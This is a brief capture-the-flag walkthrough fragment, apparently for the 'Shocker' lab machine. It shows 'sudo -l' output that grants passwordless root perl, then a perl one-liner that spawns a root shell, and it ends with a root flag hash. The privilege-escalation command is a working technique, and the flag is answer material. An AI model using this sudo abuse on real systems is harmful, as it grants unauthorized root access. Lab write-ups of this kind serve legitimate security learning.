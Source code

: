 running sudo -l 
shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/sh";'

we are root
#rootflag d28f18025d471da01def8af7f9cd0229
